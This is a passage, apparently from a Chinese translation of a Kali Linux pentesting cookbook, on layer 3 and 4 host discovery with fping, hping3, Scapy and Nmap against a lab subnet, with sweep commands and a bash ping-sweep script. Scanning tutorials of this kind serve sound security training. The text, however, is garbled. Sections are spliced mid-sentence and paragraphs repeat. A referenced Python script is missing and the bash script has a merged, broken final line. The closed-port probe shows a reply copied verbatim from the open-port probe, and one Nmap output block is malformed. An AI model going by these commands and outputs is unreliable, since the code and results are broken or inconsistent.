使用 `fping` 进行第三层发现不需要实验室环境，因为互联网上的许多系统都会对 `ICMP` 显回请求响应。然而，强烈建议你仅在自己的实验环境中进行任何类型的网络扫描，除非你对你所属的任何管理机构所施加的法律法规非常熟悉。如果你想在实验室内执行此技术，你至少需要一个能够响应 ICMP 请求的系统。在提供的示例中，结合了 Linux 和 Windows 系统。有关在本地实验环境中设置系统的更多信息，请参考 `Chapter 1`, `Getting Started`（入门）中的 `Installing Metasploitable2`（安装 Metasploitable2）和 `Installing Windows`（安装 Windows）`Server` 教程。

## 如何操作...

`fping` 与 `ping` 实用程序非常相似，但增加了一些额外。它可以像 `ping` 一样用于向单个目标发送 ICMP 显回请求以确定其是否存活。这通过简单将 IP 地址作为参数传递给 `fping` 实用程序来实现：

```bash
root@KaliLinux:~# fping 172.16.36.135
```

`172.16.36.135` 存活

## 第 2 章

与标准的 `ping` 实用程序不同，`fping` 在收到单个回复后将停止发送 ICMP 显回请求。收到回复后，它将指示该地址的主机存活。或者，如果从该地址未收到响应，`fping` 默认会在确定主机不可达之前尝试连接系统四次：

```bash
root@KaliLinux:~# fping 172.16.36.136
```

ICMP Host Unreachable from 172.16.36.180 for ICMP Echo sent to 172.16.36.136
ICMP Host Unreachable from 172.16.36.180 for ICMP Echo sent to 172.16.36.136
ICMP Host Unreachable from 172.16.36.180 for ICMP Echo sent to 172.16.36.136
ICMP Host Unreachable from 172.16.36.180 for ICMP Echo sent to 172.16.36.136
`172.16.36.136` 不可达

此默认连接尝试次数可以使用 `-c count` 选项并提供一个整数值来定义要尝试的次数：

```bash
root@KaliLinux:~# fping 172.16.36.135 -c 1
```
172.16.36.135 : [0], 84 bytes, 0.67 ms (0.67 avg, 0% loss)
172.16.36.135 : xmt/rcv/%loss = 1/1/0%, min/avg/max = 0.67/0.67/0.67

```bash
root@KaliLinux:~# fping 172.16.36.136 -c 1
```
172.16.36.136 : xmt/rcv/%loss = 1/0/100%

以这种方式执行时，输出略显晦涩，但通过仔细分析可以理解。任何主机的输出都包含 IP 地址、尝试次数（`xmt`）、收到的回复数（`rcv`）以及丢失率（`%loss`）。在提供的示例中，第一个地址被发现为在线。这通过接收字节数和回复延迟都已返回得到了证明。你也可以通过检查丢失率来轻松判断提供的 IP 地址是否关联存活的主机。如果丢失比例为 100%，则没有收到任何回复。

与 `ping`（它最常用作故障排除工具）不同，`fping` 构建时具有扫描多个主机的集成功能。可以使用 `fping` 使用 `-g` 选项动态生成 IP 地址列表扫描一系列主机。要指定扫描范围，请将此参数传递给所需顺序范围内的第一个和最后一个 IP 地址：

```bash
root@KaliLinux:~# fping -g 172.16.36.1 172.16.36.4
```
`172.16.36.1` 存活
`172.16.36.2` 存活
ICMP Host Unreachable from 172.16.36.180 for ICMP Echo sent to 172.16.36.3

## 发现扫描

ICMP Host Unreachable from 172.16.36.180 for ICMP Echo sent to 172.16.36.3
ICMP Host Unreachable from 172.16.36.180 for ICMP Echo sent to 172.16.36.3
ICMP Host Unreachable from 172.16.36.180 for ICMP Echo sent to 172.16.36.3
...
`172.16.36.3` 不可达
`172.16.36.4` 不可达

`-g` 选项还可以用于根据 CIDR 表示法生成列表。同样地，`fping` 将循环此列表并扫描每个地址：

```bash
root@KaliLinux:~# fping -g 172.16.36.0/24
```
`172.16.36.1` 存活
`172.16.36.2` 存活
...

最后，`fping` 还可以根据输入文件内容指定的一系列地址。要使用输入文件，请使用 `-f` 选项并提供文件名或路径：

```bash
root@KaliLinux:~# fping -f iplist.txt
```
`172.16.36.2` 存活
`172.16.36.1` 存活
`172.16.36.132` 存活
`172.16.36.135` 存活
`172.16.36.180` 存活
...

## 工作原理...

`fping` 工具执行 ICMP 发现的方式与我们之前讨论的其他工具相同。对于每个 IP 地址，`fping` 发一个或多个 ICMP 显回请求，然后对收到的响应进行评估以识别存活的主机。通过提供适当参数，`fping` 还可以扫描一个范围或输入 IP 地址列表。


彻底熟悉你所属的任何管理机构所施加的法律法规。如果你希望在实验室中执行此技术，你至少需要一个能够响应 ICMP 请求的系统。在提供的示例中，使用了 Linux 和 Windows 系统的组合。有关在本地实验室环境中设置系统的更多信息，请参考 `Chapter 1`，`Getting Started` 章节中的 `Installing Metasploitable2` 和 `Installing Windows` `Server` 配方。此外，本节还需要使用文本编辑器（如 `VIM` 或 `Nano`）向文件系统写入一个脚本。有关编写脚本的更多信息，请参考 `Chapter 1`，`Getting Started` 章节中的 `Using text editors (VIM and Nano)` 配方。

#### 如何操作...

`hping3` 是一个非常强大的发现工具，具有大量的运行选项和模式。它能够在第 3 层和第 4 层执行发现。要使用 `hping3` 对单个主机地址进行基础的 ICMP 发现，你只需要将要测试的 IP 地址和所需的 ICMP 扫描模式传递给它即可：

```
root@KaliLinux:~# hping3 172.16.36.1 --icmp
HPING 172.16.36.1 (eth1 172.16.36.1): icmp mode set, 28 headers + 0 data bytes
len=46 ip=172.16.36.1 ttl=64 id=41835 icmp_seq=0 rtt=0.3 ms
len=46 ip=172.16.36.1 ttl=64 id=5039 icmp_seq=1 rtt=0.3 ms
len=46 ip=172.16.36.1 ttl=64 id=54056 icmp_seq=2 rtt=0.6 ms
len=46 ip=172.16.36.1 ttl=64 id=50519 icmp_seq=3 rtt=0.5 ms
len=46 ip=172.16.36.1 ttl=64 id=47642 icmp_seq=4 rtt=0.4 ms
^C
--- 172.16.36.1 hping statistic ---
5 packets transmitted, 5 packets received, 0% packet loss
round-trip min/avg/max = 0.3/0.4/0.6 ms
```

在提供的演示中，过程使用 `Ctrl` + `C` 停止。与标准的 `ping` 工具类似，`hping3` 的 ICMP 模式将无限持续，除非在初始命令中指定特定的数据包数量。要定义发送的尝试次数，应包含 `-c` 选项并带有一个指示所需尝试次数的整数值：

```
root@KaliLinux:~# hping3 172.16.36.1 --icmp -c 2
HPING 172.16.36.1 (eth1 172.16.36.1): icmp mode set, 28 headers + 0 data bytes
len=46 ip=172.16.36.1 ttl=64 id=40746 icmp_seq=0 rtt=0.3 ms
len=46 ip=172.16.36.1 ttl=64 id=12231 icmp_seq=1 rtt=0.5 ms
--- 172.16.36.1 hping statistic ---
2 packets transmitted, 2 packets received, 0% packet loss
round-trip min/avg/max = 0.3/0.4/0.5 ms
```

虽然 `hping3` 默认不支持扫描多个系统，但可以通过 bash 脚本轻松实现脚本化。为了做到这一点，我们必须首先识别与活动地址相关的输出与与无响应地址相关的输出之间的区别。为了这一点，我们应该在一个没有分配主机的 IP 地址上运行相同的命令：

```
root@KaliLinux:~# hping3 172.16.36.4 --icmp -c 2
HPING 172.16.36.4 (eth1 172.16.36.4): icmp mode set, 28 headers + 0 data bytes
--- 172.16.36.4 hping statistic ---
2 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```

通过识别与这些每个请求相关的响应，我们可以确定一个可以进行 `grep` 查询的唯一字符串；此字符串会将成功的 ping 尝试与失败的尝试分离来。在 `hping3` 中，你可能会注意到只有在返回响应时才会显示 `len` 值。基于此，我们可以通过 `grep` `len` 来提取提取的尝试。为了确定这种方法在脚本中的有效性，我们应该尝试连接之前的两个命令，并将输出管道到我们的 `grep` 函数。假设我们选择的字符串对于成功尝试来说确实是唯一的，我们应该只会看到与活动主机相关的输出：

```
root@KaliLinux:~# hping3 172.16.36.1 --icmp -c 1; hping3 172.16.36.4 --icmp -c 1 | grep "len"
HPING 172.16.36.1 (eth1 172.16.36.1): icmp mode set, 28 headers + 0 data bytes
len=46 ip=172.16.36.1 ttl=64 id=63974 icmp_seq=0 rtt=0.2 ms
--- 172.16.36.1 hping statistic ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.2/0.2/0.2 ms
--- 172.16.36.4 hping statistic ---
1 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```

## 发现扫描

尽管有了预期的结果，但在这种情况下 `grep` 函数似乎没有有效地应用到输出上。由于 `hping3` 的输出使得难以管道到 `grep` 函数，我们可以通过其他方法来绕过这一点。具体来说，我们将尝试将输出重定向到文件，然后直接从文件中进行 `grep`：

```
root@KaliLinux:~# hping3 172.16.36.1 --icmp -c 1 >> handle.txt
--- 172.16.36.1 hping statistic ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.4/0.4/0.4 ms
root@KaliLinux:~# hping3 172.16.36.4 --icmp -c 1 >> handle.txt
--- 172.16.36.4 hping statistic ---
1 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
root@KaliLinux:~# cat handle.txt
HPING 172.16.36.1 (eth1 172.16.36.1): icmp mode set, 28 headers + 0 data bytes
len=46 ip=172.16.36.1 ttl=64 id=56022 icmp_seq=0 rtt=0.4 ms
HPING 172.16.36.4 (eth1 172.16.36.4): icmp mode set, 28 headers + 0 data bytes
```

虽然这次尝试没有完全成功，因为输出没有重定向到文件，但我们可以通过读取文件看到足够的输出来创建一个有效的脚本。具体来说，我们能够重定向 `/24` 范围内的每个地址，并将结果传递到 `handle.txt` 文件：

```bash
root@KaliLinux:~# for addr in $(seq 1 254); do hping3 172.16.36.$addr --icmp -c 1 >> handle.txt; done
```

这样做，仍然有大量的输出（提供的输出已截断以便方便），包含所有未重定向到文件的输出部分。然而，后续脚本的成功取决于此循环的过度输出，而是取决于从输出文件中提取信息的能力：

```
root@KaliLinux:~# ls
handle.txt pinger.sh
root@KaliLinux:~# grep len handle.txt
len=46 ip=172.16.36.2 ttl=128 id=7537 icmp_seq=0 rtt=6.6 ms
len=46 ip=172.16.36.1 ttl=64 id=56312 icmp_seq=0 rtt=55.2 ms
len=46 ip=172.16.36.132 ttl=64 id=47801 icmp_seq=0 rtt=27.3 ms
len=46 ip=172.16.36.135 ttl=64 id=62601 icmp_seq=0 rtt=77.9 ms
```


在这里，在输出中，我们可以看到每一个活跃主机都已列出。此时，唯一剩下的任务是从此输出中提取 IP 地址，然后将整个过程重新创建一个功能单一的脚本。请查看以下命令命令集：

```
root@KaliLinux:~# grep len handle.txt
len=46 ip=172.16.36.2 ttl=128 id=7537 icmp_seq=0 rtt=6.6 ms
len=46 ip=172.16.36.1 ttl=64 id=56312 icmp_seq=0 rtt=55.2 ms
len=46 ip=172.16.36.132 ttl=64 id=47801 icmp_seq=0 rtt=27.3 ms
len=46 ip=172.16.36.135 ttl=64 id=62601 icmp_seq=0 rtt=77.9 ms
root@KaliLinux:~# grep len handle.txt | cut -d " " -f 2
ip=172.16.36.2
ip=172.16.36.1
ip=172.16.36.132
ip=172.16.36.135
```

### 发现扫描

```
root@KaliLinux:~# grep len handle.txt | cut -d " " -f 2 | cut -d "=" -f 2
172.16.36.2
172.16.36.1
172.16.36.132
172.16.36.135
```

通过将输出通过传输到一系列 `cut` 函数，我们可以从输出中提取出 IP 地址。现在我们已经成功识别出了一种扫描多个主机并轻松识别结果的方法，我们现在应该将其集成到脚本中。一个将所有这些操作整合在一起的功能脚本示例如下：

```bash
#!/bin/bash

if [ "$#" -ne 1 ]; then
echo "Usage - ./ping_sweep.sh [/24 network address]"
echo "Example - ./ping_sweep.sh 172.16.36.0"
echo "Example will perform an ICMP ping sweep of the 172.16.36.0/24 network and output to an output.txt file"
exit
fi

prefix=$(echo $1 | cut -d '.' -f 1-3)

for addr in $(seq 1 254); do
  hping3 $prefix.$addr --icmp -c 1 >> handle.txt;
done

grep len handle.txt | cut -d " " -f 2 | cut -d "=" -f 2 >> output.txt rm handle.txt
```

在提供的 bash 脚本中，第一行定义了 bash 解释器的位置。

接后的代码块执行了一个测试，以确定是否提供了预期的单个参数。这是通过评估提供的参数数量是否等于 1 来判断的。如果未提供预期的参数，则输出脚本的用法并退出。用法输出表明脚本期望将 `/24` 网络地址作为参数。下一行代码从提供的网络地址中提取网络前缀。例如，如果提供的网络地址是 `192.168.11.0`，则 `prefix` 变量将被赋值为 `192.168.11`。然后对 `/24` 范围内的每个地址执行 `hping3` 操作，并将每个任务的输出结果放入 `handle.txt` 文件中。

### 第 2 章

完成后，使用 `grep` 从 handle 文件中提取与活跃主机响应相关的行，然后从这些行中提取 IP 地址。得到的 IP 地址将随后传递到 `output.txt` 文件中，并从目录中删除临时文件 `handle.txt`。可以使用点和正斜杠加上可执行脚本名称来执行此脚本：

```
root@KaliLinux:~# ./ping_sweep.sh
Usage - ./ping_sweep.sh [/24 network address]
Example - ./ping_sweep.sh 172.16.36.0
Example will perform an ICMP ping sweep of the 172.16.36.0/24 network and output to an output.txt file

root@KaliLinux:~# ./ping_sweep.sh 172.16.36.0
--- 172.16.36.1 hping statistic ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.4/0.4/0.4 ms
--- 172.16.36.2 hping statistic ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.5/0.5/0.5 ms
--- 172.16.36.3 hping statistic ---
1 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
***** {TRUNCATED} *****
```

完成后，使用 `grep` 从 handle 文件中提取与活跃主机响应相关的行，然后从这些行中提取 IP 地址。得到的 IP 地址随后被存入 `output.txt` 文件，并从目录中删除临时文件 `handle.txt`。该脚本可以使用点和正斜杠加上可执行脚本名称来执行：


在这里，我们将变量 `i` 初始化为 `IP` 对象，然后重新配置了标准配置，以将目标地址设置为我们目标服务器的 IP 地址。请注意，当为目标地址提供回环地址以外的任何 IP 地址时，源 IP 地址会自动更新。我们需要构建的下一层是 TCP 层。可以通过后续命令看到：

```python
>>> t = TCP()
>>> t.display()
```

### [ TCP ]
sport= ftp_data
dport= http
seq= 0
ack= 0
dataofs= None
reserved= 0
flags= S
window= 8192
chksum= None
urgptr= 0
options= {}

```python
>>> t.flags='A'
>>> t.display()
```

### [ TCP ]
sport= ftp_data
dport= http
seq= 0
ack= 0
dataofs= None
reserved= 0
flags= A
window= 8192
chksum= None
urgptr= 0
options= {}

102

*第 2 章*

在这里，我们将变量 `t` 初始化为 `TCP` 对象。请注意，对象的默认配置已经将目标端口设置为 HTTP 或 80 端口。在这里，我们只需要将 TCP 标志从 `S` (SYN) 更改为 `A` (ACK)。现在，可以通过正斜杠分隔每一层来构建栈，如下面的命令所示：

```python
>>> request = (i/t)
>>> request.display()
```

### [ IP ]
version= 4
ihl= None
tos= 0x0
len= None
id= 1
flags=
frag= 0
ttl= 64
proto= tcp
chksum= None
src= 172.16.36.180
dst= 172.16.36.135
options=

### [ TCP ]
sport= ftp_data
dport= http
seq= 0
ack= 0
dataofs= None
reserved= 0
flags= A
window= 8192
chksum= None
urgptr= 0
options= {}

103

*发现性扫描*

在这里，我们将整个请求栈赋值给 `request` 变量。现在，可以使用 `send` 和 `receive` 函数在网络上传输 `request`，然后对响应文进行评估以确定目标地址的状态：

```python
>>> response = sr1(request)
Begin emission:
.......Finished to send 1 packets.
***
Received 12 packets, got 1 answers, remaining 0 packets
>>> response.display()
```

### [ IP ]
version= 4L
ihl= 5L
tos= 0x0
len= 40
id= 0
flags= DF
frag= 0L
ttl= 64
proto= tcp
chksum= 0x9974
src= 172.16.36.135
dst= 172.16.36.180
options=

### [ TCP ]
sport= http
dport= ftp_data
seq= 0
ack= 0
dataofs= 5L
reserved= 0L
flags= R
window= 0
chksum= 0xe21
urgptr= 0
options= {}

### [ Padding ]
load= '\x00\x00\x00\x00\x00\x00'

104

*第 2 章*

注意，远程系统响应了一个带有 `RST` 标志的 `TCP` 数据包。这通过分配给 `flags` 属性的 `R` 值表示。通过直接调用函数，可以将封装请求以及发送和接收响应的整个过程压缩为一个命令：

```python
>>> response = sr1(IP(dst="172.16.36.135")/TCP(flags='A'))
Begin emission:
................Finished to send 1 packets.
***
Received 22 packets, got 1 answers, remaining 0 packets
>>> response.display()
```

### [ IP ]
version= 4L
ihl= 5L
tos= 0x0
len= 40
id= 0
flags= DF
frag= 0L
ttl= 64
proto= tcp
chksum= 0x9974
src= 172.16.36.135
dst= 172.16.36.180
options=

### [ TCP ]
sport= http
dport= ftp_data
seq= 0
ack= 0
dataofs= 5L
reserved= 0L
flags= R
window= 0
chksum= 0xe21
urgptr= 0
options= {}

### [ Padding ]
load= '\x00\x00\x00\x00\x00\x00'

105

*发现性扫描*

现在我们已经识别了与向活动主机开放端口发送的 `ACK` 数据包相关的响应，让我们尝试向活动系统上的关闭端口发送类似的请求，并识别响应是否存在任何差异：

```python
>>> response = sr1(IP(dst="172.16.36.135")/TCP(dport=1111,flags='A'))
Begin emission:
.........Finished to send 1 packets.
***
Received 12 packets, got 1 answers, remaining 0 packets
>>> response.display()
```

### [ IP ]
version= 4L
ihl= 5L
tos= 0x0
len= 40
id= 0
flags= DF
frag= 0L
ttl= 64
proto= tcp
chksum= 0x9974
src= 172.16.36.135
dst= 172.16.36.180
options=

### [ TCP ]
sport= http
dport= ftp_data
seq= 0
ack= 0
dataofs= 5L
reserved= 0L
flags= R
window= 0
chksum= 0xe21
urgptr= 0
options= {}

### [ Padding ]
load= '\x00\x00\x00\x00\x00\x00'

106

*第 2 章*

提供的示例脚本非常简单。在循环遍历 IP 地址中最后一个字节的所有可能值时，ACK 数据包被发送到 TCP 80 端口，并对响应进行评估，以确定响应中 TCP 标志的整数转换值是否为 4（与单独 RST 标志相关的值）。如果数据包带有 RST 标志，脚本将输出响应的系统 IP 地址。如果没有接收到响应，Python 将无法测试响应变量的值，因为没有给它分配值。因此，如果没有返回响应，将会发生异常。


此脚本可以使用点和正斜杠，后跟执行脚本名称来运行：

```
root@KaliLinux:~# ./ACK_Ping.py
```

用法 - `./ACK_Ping.py [/24 网络地址]`

示例 - `./ACK_Ping.py 172.16.36.0`

示例将对 172.16.36.0/24 范围执行 TCP ACK ping 扫描

```
root@KaliLinux:~# ./ACK_Ping.py
172.16.36.1
172.16.36.2
172.16.36.132
172.16.36.135
```

可以使用相似的发现方法来使用 UDP 协议进行第 4 层发现。

为了确定我们是否可以使用 UDP 协议发现主机，我们需要确定如何触发任何存主机对 UDP 的响应，无论该系统在 UDP 端口上是否运行了服务。为了尝试这一点，我们首先在 Scapy 中构建请求堆栈：`root@KaliLinux:~# scapy`

```
Welcome to Scapy (2.2.0)
>>> i = IP()
>>> i.dst = "172.16.36.135"
>>> u = UDP()
>>> request = (i/u)
>>> request.display()
```

108

*第 2 章*

### [ IP ]
version= 4
ihl= None
tos= 0x0
len= None
id= 1
flags=
frag= 0
ttl= 64
proto= udp
chksum= None
src= 172.16.36.180
dst= 172.16.36.135
\options\

### [ UDP ]
sport= domain
dport= domain
len= None
chksum= None

注意 UDP 对象的默认源端口和目的端口是域名系统（DNS）。这是一个用于将域名解析为 IP 地址的常用服务。按原样发送请求将被证明对于判断 IP 地址是否与存主机关联几乎没有帮助。发送此请求的示例可以看以下命令：

```
>>> reply = sr1(request,timeout=1,verbose=1)
Begin emission:
Finished to send 1 packets.
Received 7 packets, got 0 answers, remaining 1 packets
```

尽管与目的 IP 地址关联的主机是存活，但我们没有收到任何响应。讽的是，缺乏响应实际上是因为目标系统上正在使用 DNS 服务。尽管你自然所想的，但有时通过探测未运行服务的 UDP 端口来尝试识别主机更为有效，前提是 ICMP 流量没有被防火墙拦截。这是因为存活服务通常配置为仅对包含特定内容的请求响应。现在，我们将尝试向另一个未使用的 UDP 端口发送相同的请求：

```
>>> u.dport = 123
>>> request = (i/u)
```

109

*发现扫描*

```
>>> reply = sr1(request,timeout=1,verbose=1)
Begin emission:
Finished to send 1 packets.
Received 5 packets, got 1 answers, remaining 0 packets
>>> reply.display()
```

```
### [ IP ]
version= 4L
ihl= 5L
tos= 0xc0
len= 56
id= 62614
flags=
frag= 0L
ttl= 64
proto= icmp
chksum= 0xe412
src= 172.16.36.135
dst= 172.16.36.180
\options\

### [ ICMP ]
type= dest-unreach
code= port-unreachable
chksum= 0x9e72
unused= 0

### [ IP in ICMP ]
version= 4L
ihl= 5L
tos= 0x0
len= 28
id= 1
flags=
frag= 0L
ttl= 64
proto= udp
chksum= 0xd974
src= 172.16.36.180
dst= 172.16.36.135
\options\
```

110

*第 2 章*

### [ UDP in ICMP ]
sport= domain
dport= ntp
len= 8
chksum= 0x5dd2

```

通过将请求目的更改为端口 123 并重新发送，我们现在收到一个指示目的端口不可达的响应。如果你检查此响应的源 IP 地址，你可以看到它是从原始请求的目标主机发送的。此响应确认了原始目的 IP 地址处的主机是存活的。遗憾的是，在这种情况下并不总是返回响应。这种技术的有效性在很大程度上取决于你正在探测的系统及其配置。正因为如此，UDP 发现通常比 TCP 发现更难执行。它绝不像仅仅发送一个开启了单个标志的 TCP 包那么简单。在服务确实存在的情况下，通常需要针对特定服务的探测。幸运的是，有多种复杂的 UDP 扫描工具，它们可以使用各种 UDP 请求和针对特定服务的探测来确定存活主机是否与给定的 IP 地址关联。

## 它是如何工作的……

在提供的示例中，同时使用了 UDP 和 TCP 发现方法。我们能够使用 Scapy 构造自定义请求，使用这些协议中的每一种识别存活主机。在 TCP 的情况下，构建了自定义的 ACK 包并发送到每个目标系统的任意端口。如果收到 RST 响应，则该系统被识别为存活。或者，向任意端口发送空的 UDP 请求以尝试诱导 ICMP 端口不可达响应。响应被用作存活系统的指示。

每种技术都可以在 Python 脚本中使用，以对多个主机或一个地址范围进行发现。

## 使用 Nmap 执行第 4 层发现

除了 Nmap 工具中集成的许多其他扫描功能外，还有一个执行第 4 层发现的选项。这个特定的配方将演示如何使用 Nmap 结合 TCP 和 UDP 协议进行第 4 层发现。

### 准备工作

使用 Nmap 执行第 4 层发现不需要实验室环境，因为互联网上的许多系统都会对 TCP 和 UDP 流量做出响应。但是，除非你完全熟悉你所属管理机构所实施的法律法规，否则强烈建议仅在你自己的实验室执行任何类型的网络扫描。

111

*发现扫描*

如果你希望在实验室中执行此技术，你至少需要一个对 TCP 和/或 UDP 流量响应的系统。运行至少一个 TCP 和 UDP 服务的系统更好。在提供的示例中，使用了 Linux 和 Windows 组合。有关在本地环境中设置系统的更多信息，请参阅 *Metasitable2* 和 *Windows Server*。

### 如何操作……

Nmap 中提供了同时通过 TCP 和 UDP 发现主机的选项。Nmap 的 UDP 发现已经配置为使用：

root@KaliLinux:~# nmap 172.16.36.135 -PU53 -sn

Starting Nmap 7.90 (https://nmap.org/nmap) at 2023-10-27 10:00:00 by root
Nmap scan report for 172.16.36.135
Host is up (0.0042s latency).
Nmap scan completed: 0.05 seconds

此发现扫描也可以通过连字符符号修改为对顺序范围扫描。在提供的示例中，我们将扫描整个：

root@KaliLinux:~# nmap 172.16.36.0-255 -PU53 -sn

Starting Nmap 7.90 (https://nmap.org/nmap) at 2023-10-27 10:01:00 by root
Nmap scan report for 172.16.36.1
Host is up (0.0020s latency).
Nmap scan report for 172.16.36.2
Host is up (0.0018s latency).
Nmap scan report for 172.16.36.132
Host is up (0.0037s latency).
Nmap scan report for 172.16.36.135
Host is up (0.0041s latency).
Nmap done: 256 IPs (4 hosts up) scanned in 13 seconds.

112

*第 2 章*

MAC Address: 00:0C:29:3D:84:32 (VMware)
Nmap scan report for 172.16.36.180
Host is up.
Nmap scan report for 172.16.36.254
Host is up (0.0015s latency).


# MAC 地址: 00:50:56:EB:E1:8A (VMware)

# Nmap 完成：在 3.91 秒内扫描了 256 IP 地址（6 个主机在线）

同样，也可以根据输入列表定义，对一组 IP 地址配置 Nmap UDP 探测 请求。在提供的示例中，我们将使用相同目录下的 `iplist.txt` 文件来扫描其中列出的每个主机：

```
root@KaliLinux:~# nmap -iL iplist.txt -sn -PU53

Starting Nmap 6.25 ( http://nmap.org ) at 2013-12-17 06:36 EST
Nmap scan report for 172.16.36.2
Host is up (0.00015s latency).
MAC Address: 00:50:56:FF:2A:8E (VMware)
Nmap scan report for 172.16.36.1
Host is up (0.00024s latency).
MAC Address: 00:50:56:C0:00:08 (VMware)
Nmap scan report for 172.16.36.135
Host is up (0.00029s latency).
MAC Address: 00:0C:29:3D:84:32 (VMware)
Nmap scan report for 172.16.36.132
Host is up (0.00030s latency).
MAC Address: 00:0C:29:65:FC:D2 (VMware)
Nmap scan report for 172.16.36.180
Host is up.
Nmap scan report for 172.16.36.254
Host is up (0.00021s latency).
MAC Address: 00:50:56:EB:E1:8A (VMware)
Nmap done: 6 IP addresses (6 hosts up) scanned in 0.31 seconds
```

## 发现扫描

尽管上述每个示例的输出都显示发现了六个主机，但这并不意味着这六个主机都是通过 UDP 发现方法发现的。除了对 UDP 端口 `53` 进行探测外，Nmap 还会利用它可以使用的任何其他发现技术来发现指定范围或输入列表内的主机。虽然 `-sn` 选项可以有效防止 Nmap 执行 TCP 端口扫描，但它并没有完全隔离我们的 UDP ping 探测。虽然没有有效的方法可以仅隔离此项任务，但你可以通过分析 `Wireshark` 或 `TCPdump` 中的流量来确定哪些主机是通过 UDP 请求发现的。或者，Nmap 也可以像在 `Scapy` 中讨论的那样，执行 TCP ACK ping 探测。要使用 ACK 包来识别在线主机，请使用 `-PA` 选项并结合你想要使用的端口：

```
root@KaliLinux:~# nmap 172.16.36.135 -PA80 -sn

Starting Nmap 6.25 ( http://nmap.org ) at 2013-12-11 20:09 EST
Nmap scan report for 172.16.36.135
Host is up (0.00057s latency).
MAC Address: 00:0C:29:3D:84:32 (VMware)
Nmap done: 1 IP address (1 host up) scanned in 0.21 seconds
```

TCP ACK ping 发现方法也可以使用连字符表示法对范围主机进行执行，或者根据输入列表对指定的主机地址执行：

```
root@KaliLinux:~# nmap 172.16.36.0-255 -PA80 -sn

Starting Nmap 6.25 ( http://nmap.org ) at 2013-12-17 06:46 EST
Nmap scan report for 172.16.36.132
Host is up (0.00033s latency).
MAC Address: 00:0C:29:65:FC:D2 (VMware)
Nmap scan report for 172.16.36.135
Host is up (0.00013s latency).
MAC Address: 00:0C:29:3D:84:32 (VMware)
Nmap scan report for 172.16.36.180
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 3.43 seconds
```

```
root@KaliLinux:~# nmap -iL iplist.txt -PA80 -sn

Starting Nmap 6.25 ( http://nmap.org ) at 2013-12-17 06:47 EST
Nmap scan report for 172.16.36.135
Host is up (0.00033s latency).
MAC Address: 00:0C:29:3D:84:32 (VMware)
Nmap scan report for 172.16.36.132
Host is up (0.00029s latency).
MAC Address: 00:0C:29:65:FC:D2 (VMware)
Nmap scan report for 172.16.36.180
Host is up.
Nmap done: 3 IP addresses (3 hosts up) scanned in 0.31 seconds
```

## 工作原理

Nmap 执行 TCP 发现的技术使用了我们之前在使用 `Scapy` 执行 TCP 发现时讨论的相同底层原理。Nmap 向目标系统的任意端口发送一系列 TCP ACK 包，并尝试获取响应以作为系统在线的指示。然而，Nmap 执行 UDP 发现的技术与在 `Scapy` 中讨论的技术略有不同。Nmap 不仅仅依赖于可能不稳定或被拦截的 ICMP 不可响应，它还通过向目标端口发送特定服务的请求来尝试获取响应以进行发现。我们之前讨论过使用 `hping3` 执行执行第 3 层 ICMP 发现。除了此功能外，`hping3` 还可以执行 UDP 和 TCP 发现。但是，如前所述，`hping3` 是为了执行目标请求而开发的，需要一些脚本编写才能作为有效的扫描工具使用。本配方将演示如何使用 `hping3` 同时使用 TCP 和 UDP 协议执行第 4 层发现。

使用 `hping3` 执行第 4 层发现不需要实验室环境，因为互联网上的许多系统都会对 TCP 和 UDP 流量做出响应。但是，除非你彻底熟悉当局实施的规定，否则强烈建议仅在你自己的实验室中任何类型的网络扫描。如果你想在实验室执行此技术，你需要至少一个会对 TCP/UDP 流量响应的系统。运行至少一个 TCP 和 UDP 服务的系统更好。在提供的示例中，结合了 Linux 和 Windows 系统。有关在本地环境中设置设置的更多信息，请参阅第 1 章中的 `安装 Metploitable2` 和 `安装 Windows Server` 配方。此外，本节还需要使用 `VIM` 或 `Nano` 等文本编辑器向文件系统写入一个脚本。有关编写脚本的更多信息，请参阅第 1 章中的 `使用文本编辑器 (VIM and Nano)` 配方。

## 发现扫描

### 如何操作

与 Nmap 不同，`hping3` 通过隔离任务，可以非常容易地识别通过 UDP 探测发现的主机。通过使用 `--udp` 选项指定 UDP 模式，可以传输 UDP 探测以尝试触发在线主机的响应：

```
root@KaliLinux:~# hping3 --udp 172.16.36.132
HPING 172.16.36.132 (eth1 172.16.36.132): udp mode set, 28 headers + 0
data bytes
ICMP Port Unreachable from ip=172.16.36.132 name=UNKNOWN
status=0 port=2792 seq=0
ICMP Port Unreachable from ip=172.16.36.132 name=UNKNOWN
status=0 port=2793 seq=1
ICMP Port Unreachable from ip=172.16.36.132 name=UNKNOWN
status=0 port=2794 seq=2
ICMP Port Unreachable from ip=172.16.36.132 name=UNKNOWN
status=0 port=2795 seq=3
^C
--- 172.16.36.132 hping statistic ---
4 packets transmitted, 4 packets received, 0% packet loss
round-trip min/avg/max = 1.8/29.9/113.4 ms
```

在提供的演示中，使用 `Ctrl + C` 停止了进程。在 UDP 模式下使用 `hping3` 时，除非在初始命令中定义了特定的包数，否则发现将无限进行。要定义发送的次数，应包含一个指示所需尝试次数的整数值：

```
root@KaliLinux:~# hping3 --udp 172.16.36.132 -c 1
HPING 172.16.36.132 (eth1 172.16.36.132): udp mode set, 28 headers + 0
data bytes
ICMP Port Unreachable from ip=172.16.36.132 name=UNKNOWN
status=0 port=2422 seq=0
--- 172.16.36.132 hping statistic ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 104.8/104.8/104.8 ms
```

尽管 `hping3` 默认不支持扫描多个系统，但可以


很容易通过 bash 脚本进行实现。为了实现这一点，我们必须首先识别与活动地址相关的输出与无响应地址相关的输出之间的区别。为了做到，我们应该在一个没有分配主机的 IP 地址上运行相同的命令：

```bash
root@KaliLinux:~# hping3 --udp 172.16.36.131 -c 1

HPING 172.16.36.131 (eth1 172.16.36.131): udp mode set, 28 headers + 0 data bytes
--- 172.16.36.131 hping statistic ---
1 packets transmitted, 0 packets received, 100% packet loss
